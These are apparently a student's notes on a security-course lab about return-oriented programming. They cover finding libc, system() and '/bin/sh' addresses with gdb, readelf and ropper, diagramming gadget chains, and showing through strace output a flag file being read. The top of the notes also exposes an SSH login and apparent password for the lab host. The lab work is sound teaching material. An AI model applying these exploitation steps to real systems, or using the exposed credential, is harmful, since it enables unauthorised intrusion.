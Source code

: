 ```
ssh lab06@52.201.10.159
27b69684
```
# Tutorial ROP
We are creating a buffer overflow and redirecting the EIP to call `printf()` on some 
given parameters. In this case, the parameters need to reside somewhere within the code.

Because ASLR is not on, we can use the address found in the binary while using gdb. Note
that we need to use the libc address for printf.

## Find the function
```
vagrant@ubuntu1804:~/cs6265/lab06/tut06-rop$ ldd ./target
    linux-gate.so.1 (0xf7fd4000)
    libdl.so.2 => /lib/i386-linux-gnu/libdl.so.2 (0xf7fbc000)  <-- this guy
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7de0000)
    /lib/ld-linux.so.2 (0xf7fd6000)
```
or from gdb
```
gdb ./target
b main
r
info proc mappings
pwndbg> info proc mappings
process 7183
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
0x8048000  0x8049000     0x1000        0x0 /home/vagrant/cs6265/lab06/tut06-rop/target
0x8049000  0x804a000     0x1000        0x0 /home/vagrant/cs6265/lab06/tut06-rop/target
0x804a000  0x804b000     0x1000     0x1000 /home/vagrant/cs6265/lab06/tut06-rop/target
0xf7de0000 0xf7fb5000   0x1d5000        0x0 /lib/i386-linux-gnu/libc-2.27.so  <--- this guy
0xf7fb5000 0xf7fb6000     0x1000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb8000     0x2000   0x1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb8000 0xf7fb9000     0x1000   0x1d7000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb9000 0xf7fbc000     0x3000        0x0
0xf7fbc000 0xf7fbf000     0x3000        0x0 /lib/i386-linux-gnu/libdl-2.27.so
0xf7fbf000 0xf7fc0000     0x1000     0x2000 /lib/i386-linux-gnu/libdl-2.27.so
0xf7fc0000 0xf7fc1000     0x1000     0x3000 /lib/i386-linux-gnu/libdl-2.27.so
0xf7fcf000 0xf7fd1000     0x2000        0x0
0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib/i386-linux-gnu/ld-2.27.so
0xfffd8000 0xffffe000    0x26000        0x0 [stack]
pwndbg>
```

Then we can use pwntools. Note that we need to find the offset when ASLR is turned on.
```
libc_binary = ELF('libc-2.27.so')
libcPrintfAddr = libc_binary.symbols['printf'] + offset
```

## Finding the parameter
We can find the address using ropper. But we still need to use the offset.
```
ropper --file libc-2.27.so --string "/bin/sh"
```
We can also find it in gdb:
```
pwndbg> search "/bin"
libc-2.27.so    0xf7f5e0cf das     /* '/bin/sh' */
libc-2.27.so    0xf7f5f5b9 das     /* '/bin:/usr/bin' */
libc-2.27.so    0xf7f5f5c2 das     /* '/bin' */
libc-2.27.so    0xf7f5fac7 das     /* '/bin/csh' */
libc-2.27.so    0xf7f60f38 das     /* '/bindresvport.blacklist' */
libc-2.27.so    0xf7f63950 das     /* '/bin:/usr/bin' */
libc-2.27.so    0xf7f63959 das     /* '/bin' */
[stack]         0xffffdbc1 '/bin/lesspipe %s %s'
[stack]         0xffffdbdb '/bin/gdb'
[stack]         0xffffdddb '/bin/bash'
[stack]         0xffffdf2b '/bin:/home/vagrant/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin'
[stack]         0xffffdf44 '/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin'
[stack]         0xffffdf63 '/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin'
[stack]         0xffffdf76 '/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin'
[stack]         0xffffdf81 '/bin:/usr/games:/usr/local/games:/snap/bin'
[stack]         0xffffdfa7 '/bin'
[stack]         0xffffdfbb '/bin/lesspipe %s'
pwndbg>
```

Unfortunately though, these numbers keep changing. How to infer the
address of `/bin/sh` required for `system()`? As you've learned from the
'libbase' challenge in Lab05, ASLR does not randomize the offset
inside a module; it just randomizes only the _base address_
of the entire module (why though?)

```
  0xf7f5e0cf (/bin/sh) - 0xf7e1d200 (system) = 0x140ecf
```

So in your exploit, by using the address of `system()`, you can calculate
the address of `/bin/sh` (0xf7f5e0cf = 0xf7e1d200 + 0x140ecf).

Note that the above technique still requires the leak of at least one address.

By the way, where is this magic address (0xf7e1d200, the address of
`system()`) coming from? In fact, you can also compute by hand. Try
`vmmap` in `gdb-pwndbg`:

```shell
  > vmmap
  LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
  0x8048000  0x8049000 r-xp     1000 0      /home/lab06/tut06-rop/target
  0x8049000  0x804a000 r--p     1000 0      /home/lab06/tut06-rop/target
  0x804a000  0x804b000 rw-p     1000 1000   /home/lab06/tut06-rop/target
 0xf7de0000 0xf7fb5000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
 0xf7fb5000 0xf7fb6000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
 0xf7fb6000 0xf7fb8000 r--p     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
 0xf7fb8000 0xf7fb9000 rw-p     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
  ...
```

The base address (a mapped region) of libc is '0xf7de0000'; "x" in
the "r-xp" permission is telling you that's an eXecutable region
(i.e., code).

Then, where is `system()` in the library itself? As these functions are
exported for external uses, you can parse the elf format like below:

```shell
   $ readelf -s /lib/i386-linux-gnu/libc-2.27.so | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

0x0003d200 is the beginning of the `system()` function inside the libc
library, so its base address plus 0x0003d200 should be the address we
observed previously.

```
  0xf7de0000 (base) + 0x0003d200 (offset) = 0xf7e1d200 (system)
```

# ROP gadgets
We can set the return address equal to a set of instructions. The matching arg for that
is the next return address.
```
[buf      ]
[.....    ]
[old-ra   ] -> 1) func1
[ra       ] ------------------> pop/ret gadget
[old-arg1 ] -> 1) arg1
[ra       ] -> func2
[dummy    ]
[arg1     ] -> arg1
```

We find the rop gadget like so:
```
$ ropper -f ./target
  0x08048479: pop ebx; ret; 
```

Lets try multiple chains:
```
[buf      ]
[.....    ]
[old-ra   ] -> 1) func1
[ra       ] ------------------> pop/ret gadget
[old-arg1 ] -> 1) arg1
[ra       ] -> func2
[ra       ] ------------------> pop/pop/ret gadget
[arg1     ] -> arg1
[arg2     ] -> arg2
[ra       ] ...

1) func1(arg1)
2) func2(arg1, arg2)

```

Now I am having a bunch of trouble trying to find where to set the address that holds `/proc/flag`. I think I am suppose to write it to the stack. Let's use `strace` to debug.

```
$ strace ./target < <(cat shellcode)
...
openat(AT_FDCWD, "kaaa", O_RDONLY)      = -1 ENOENT (No such file or directory)
read(3, 0x804a000, 1024)                = -1 EBADF (Bad file descriptor)
0) = 1024"\4\237\4\10@\331\377\367\20\256\376\367 l\363\367\260l\354\367\320\22\343\367p\376\351\367@{\344\367"..., 102@ llp@{
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

We can see that we are trying to open the file `kaaa`. Lets just create a symbolic link to our flag from there: `ln -s /tmp/flag/ kaaa`

Now lets try to execute:
```
$ strace ./target < <(cat shellcode)
...
openat(AT_FDCWD, "kaaa", O_RDONLY)      = 3
read(3, "THIS IS A FLAG!!!!\n", 1024)   = 19
write(1, "THIS IS A FLAG!!!!\n\367\320\22\343\367p\376\351\367@{\344\367"..., 1024THIS IS A FLAG!!!!
0) = 1024
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
It worked!
